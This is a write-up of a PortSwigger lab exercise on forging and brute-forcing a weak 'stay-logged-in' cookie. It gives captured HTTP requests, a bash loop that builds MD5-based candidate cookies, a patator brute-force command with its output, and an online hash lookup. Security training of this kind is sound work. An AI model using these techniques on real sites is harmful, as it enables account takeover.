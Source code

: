# [Lab 10: Brute-forcing a stay-logged-in cookie](https://portswigger.net/web-security/authentication/other-mechanisms/lab-brute-forcing-a-stay-logged-in-cookie)

## Description

This lab allows users to stay logged in even after they close their browser session. The cookie used to provide this functionality is vulnerable to brute-forcing.

To solve the lab, brute-force Carlos's cookie to gain access to his "My account" page.

-   Your credentials: `wiener:peter`
-   Victim's username: `carlos`
-   [Candidate passwords](https://portswigger.net/web-security/authentication/auth-lab-passwords)

---

## Solution

Navigate to the login page and submit a request with the credentials `wiener:peter` and make sure to check the "Stay logged in" checkbox.

```http
POST /login HTTP/1.1
Host: ac331f431eba0b3b80f5dba6001e00e1.web-security-academy.net
Cookie: session=7Uy8bFg7LS0U6kBfxLKY1YlT3a4NFuPj
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 48
Origin: https://ac331f431eba0b3b80f5dba6001e00e1.web-security-academy.net
Dnt: 1
Referer: https://ac331f431eba0b3b80f5dba6001e00e1.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close

username=wiener&password=peter&stay-logged-in=on
```

The response is a 302 redirect to `/my-account` that sets two cookies: `session` and `stay-logged-in`.

```http
HTTP/1.1 302 Found
Location: /my-account
Set-Cookie: stay-logged-in=d2llbmVyOjUxZGMzMGRkYzQ3M2Q0M2E2MDExZTllYmJhNmNhNzcw; Expires=Wed, 01 Jan 3000 01:00:00 UTC
Set-Cookie: session=eJVoSIYV28q2mNuNwbir0RyU1PhUn6P9; Secure; HttpOnly; SameSite=None
Connection: close
Content-Length: 0
```

Following the redirect with both cookies set yields authenticated access to `wiener`'s account, as expected. Following the redirect with just the `stay-logged-in` cookie *also* yields authenticated access to `wiener`'s account, and the same is true if just the `session` cookie is present. This is good news, as it indicates that it is possible to authenticate to an account with just the `stay-logged-in` cookie. If this cookie can be reproduced for a different account, it will grant access to that account.

Determine the composition of the `stay-logged-in` cookie. It appears to be base64-encoded, so base64-decode it.

![](images/Pasted%20image%2020210812114528.png)

This yields the string `wiener:51dc30ddc473d43a6011e9ebba6ca770`. The first part of the string is the username and the second part of the string appears to be some sort of hash. 32 characters indicates it is probably an MD5 hash, but use [Name That Hash](https://nth.skerritt.blog/) to be sure.

![](images/Pasted%20image%2020210812114758.png)

The top choice is MD5, as thought. Confirm that the MD5 of `peter` is `51dc30ddc473d43a6011e9ebba6ca770`.

```bash
$ echo -n peter | md5sum

51dc30ddc473d43a6011e9ebba6ca770 -
```

It is. Thus, the algorithm for generating the persistent login cookie is:

```txt
base64(username + ':' + md5(password))
```

Generate a file of all the possible cookies based on the given password list.

```bash
for password in $(cat passwords.txt); do hash=$(echo -n $password | md5sum | cut -d' ' -f1); echo "carlos:$hash" | tr -d '\n' | base64 >> cookies.txt; done
```

Submit a request for `/my-account` with an incorrect persistent login cookie and no `session` cookie.

```http
GET /my-account HTTP/1.1
Host: ac8c1f9e1efaffdc80dde865004800de.web-security-academy.net
Cookie: stay-logged-in=blah
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:78.0) Gecko/20100101 Firefox/78.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Origin: https://ac8c1f9e1efaffdc80dde865004800de.web-security-academy.net
Dnt: 1
Referer: https://ac8c1f9e1efaffdc80dde865004800de.web-security-academy.net/login
Upgrade-Insecure-Requests: 1
Sec-Gpc: 1
Te: trailers
Connection: close
```

It results in a 302 redirect back to `/login`. The 302 error code is the indication that can be used during the brute force to ignore failed requests.

Attempt a light brute force of the persistent login cookie using BurpSuite Intruder to detect the presence of any kind of brute force protection.

![](images/Pasted%20image%2020210812120855.png)

All 11 requests resulted in the same 302 redirect to `/login`, indicating there dosn't seem to be any kind of brute force protection.

Brute force `carlos`'s persistent login cookie.

```bash
$ patator http_fuzz url=https://ac8c1f9e1efaffdc80dde865004800de.web-security-academy.net/my-account method=GET header='Cookie: stay-logged-in=FILE0; Expires=Wed, 01 Jan 3000 01:00:00 UTC' 0=cookies.txt -x ignore:code=302

11:24:08 patator    INFO - Starting Patator 0.9 (https://github.com/lanjelot/patator) with python-3.9.2 at 2021-08-12 11:24 CDT
11:24:08 patator    INFO -
11:24:08 patator    INFO - code size:clen       time | candidate                          |   num | mesg
11:24:08 patator    INFO - -----------------------------------------------------------------------------
11:24:12 patator    INFO - 200  5375:5147      2.767 | Y2FybG9zOjk2ZTc5MjE4OTY1ZWI3MmM5MmE1NDlkZDVhMzMwMTEy |     8 | HTTP/2 200 
11:24:17 patator    INFO - Hits/Done/Skip/Fail/Size: 1/100/0/0/100, Avg: 11 r/s, Time: 0h 0m 9s
```

The correct persistent login cookie is `Y2FybG9zOjk2ZTc5MjE4OTY1ZWI3MmM5MmE1NDlkZDVhMzMwMTEy`. Use it to access `carlos`'s account and complete the challenge.

Alternatively, base64-decoding the cookie yields the string `carlos:96e79218965eb72c92a549dd5a330112`. A quick Google search of "96e79218965eb72c92a549dd5a330112" yields the password `111111` from [md5hashing.net](https://md5hashing.net/hash/md5/96e79218965eb72c92a549dd5a330112). Logging in with the credentials `carlos:111111` will also complete the challenge.
